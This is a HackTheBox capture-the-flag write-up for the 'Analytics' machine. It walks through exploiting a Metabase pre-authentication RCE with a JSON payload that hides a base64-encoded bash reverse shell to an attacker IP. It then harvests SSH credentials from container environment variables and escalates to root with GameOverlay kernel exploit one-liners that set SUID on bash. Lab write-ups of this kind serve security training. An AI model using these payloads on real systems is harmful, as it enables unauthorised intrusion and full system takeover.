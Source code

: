 ```yaml
---
title: "Analytics HackTheBox"
layout: post
date: 2024-03-30 21:00
tag: 
- HackTheBox
- Pentesting
- Machines
- Metabase
- Easy
- Docker
- GameOverlay
image: https://labs.hackthebox.com/storage/avatars/f86fcf4c1cfcc690b43f43e100f89718.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "This is a simple and minimalist template for Jekyll for those who likes to eat noodles."
category: project
author: johndoe
externalLink: false
---
```


# Overview

Analytics is an easy Linux HackTheBox machine. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication RCE, which is leveraged to gain a foothold inside a Docker container. Upon enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. The root flag is obtained by exploiting the known GameOverlay kernel vulnerability.

---

# Nmap

```bash
nmap -A -T4 10.129.30.245   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 11:19 EDT
Nmap scan report for 10.129.30.245
Host is up (0.16s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open     http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
1027/tcp  filtered IIS
2638/tcp  filtered sybase
3323/tcp  filtered active-net
5950/tcp  filtered unknown
19315/tcp filtered keyshadow
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I checked the web page on port 80 and found a login page on the subdomain `data.analytical.htb` :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010203417.png>)

ffuf also showed the subdomain :

```bash
ffuf -u http://analytical.htb -c -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt -H "Host: FUZZ.analytical.htb" -fs 154
```

![alt text](<../../../assets/images/HTBPics/Pasted image 20231008172356.png>)

Now I have a Metabase login page in front of me.
<p>Metabase is an open source tool that allows for powerful data instrumentation, visualization, and querying.</p>

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010203259.png>)

The first thing I thought about was default credentials, but that wasn't the case. So I went to look for possible existing exploits for Metabase and yes that was the case. I found that there is a Pre-Auth RCE in Metabase designated as `CVE-2023-38646`. In other words, we can execute arbitrary commands on the server without requiring any authentication.

![alt text](<../../../assets/images/HTBPics/Pasted image 20231008190828.png>)

To exploit this vulnerability we must do three things :
1. Retrieve Setup Token.
2. Change the content type to application/json.
3. Send a POST request to the */api/setup/validate* endpoint with our `setup-token` and get the reverse shell.

There are two ways to obtain the `setup-token` :
1. Automatically by using the python script : [https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-POC.py](https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-POC.py)
2. Manually by navigating to *http://data.analytical.htb/api/session/properties* and obtain the `setup-token`.

I will show you the two methods :

- Method 1 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231008190756.png>)

- Method 2 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010163141.png>)

Now we have the `setup-token`, we can exploit the vulnerability, the bellow blog contains the payload we can use to exploit it, we should just use this with our own IP and port.

[https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase)

```json
{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40MS85OTk5IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

```bash
echo "bash -i >& /dev/tcp/10.10.16.41/9999 0>&1" | base64
```

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010164734.png>)

Now we are good to go :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010164750.png>)

We got a shell as metabase user :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010164841.png>)

I noticed that I am inside a docker container, the existence of the .dockerenv file confirms that :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010165002.png>)

I said how can I escape this container, while I am looking for a way I said let's check the environment variables, and boom that contained the credentials of metalytics user :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010191050.png>)

Found credentials : *metalytics : An4lytics_ds20223#*
<p>Now I can login into ssh, and find the user flag :</p>

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010191140.png>)

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010191352.png>)

Once I was in, I tried to escalate. I checked if there are any hidden files or any files with SUID byte set, but I found nothing, And next I checked the version of the os, and I googled if it is vulnerable, and I found yes there is actually a POC on reddit under the title **Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)**:

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010200722.png>)

[https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640)

The payload works just fine, I can use commands as root on the machine :

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

Now I should customize the payload to gain a shell as root :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010200851.png>)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod u+s /bin/bash")'
```

Voilà I am root :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010201652.png>)

I can now read the root flag :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010201743.png>)

<br/>

# MACHINE PWNED!

<br/>

That was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>